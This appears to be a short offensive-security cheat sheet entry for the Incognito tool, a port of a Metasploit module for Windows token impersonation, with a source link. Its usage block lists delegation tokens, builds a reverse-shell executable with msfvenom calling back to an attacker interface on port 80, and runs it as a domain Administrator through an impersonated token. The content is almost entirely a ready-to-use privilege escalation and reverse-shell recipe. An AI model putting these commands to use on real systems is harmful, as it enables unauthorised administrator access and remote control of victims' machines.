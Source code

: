 # Name
Incognito

## Usage
```
# SeImpersonate privilege enabled --> See if there's token to impersonate
# Port of Metasploit's Incognito module

incognito.exe list_tokens -u
# Delegation Tokens Available
# sandbox\Administrator 

msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=80 -f exe -o reverse_80.exe
incognito.exe execute -c "sandbox\Administrator" reverse_80.exe
```

## Source
https://github.com/milkdevil/incognito2/blob/master/incognito.exe


